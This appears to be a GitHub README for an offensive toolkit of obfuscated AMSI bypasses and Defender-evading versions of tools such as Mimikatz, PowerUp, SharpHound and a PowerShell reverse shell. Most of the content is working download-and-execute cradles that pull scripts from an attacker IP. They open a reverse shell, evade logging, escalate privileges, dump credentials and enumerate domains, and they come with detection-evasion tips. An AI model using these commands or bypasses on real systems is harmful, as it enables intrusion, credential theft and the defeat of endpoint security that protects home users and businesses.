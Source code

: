 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## what is this and why is this public

A collection of custom obfuscated AMSI bypass methods (source taken from [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)) for powershell sessions as well as a collection of obfuscated scripts for bypassing Microsoft Defender.

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protection for a significant amount of home users and smaller enterprises which is bad.

These really are just for fun with staying in-memory with only powershell. I can't really recommend you use these on an engagement.

## bypass methods

I will unprivate soon :)

## MDE-safe scripts

These are all just for defender - I just used defendercheck and made some edits. Anything serious and you're on your own

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

- `Invoke-Mimimkatz`
    - This script is **not yet bypassed**. The VS solution source will need to be custom-compiled or encoded further. I'll fix this later.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`. **Do not use this option** if you want to be opsec safe!

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `Invoke-SessionHunter`
- `PowerView`
- `Invoke-Rubeus`
- obfuscated shell for .net reflected assemblies (empire already has a folder for this but I will make some custom bypasses)
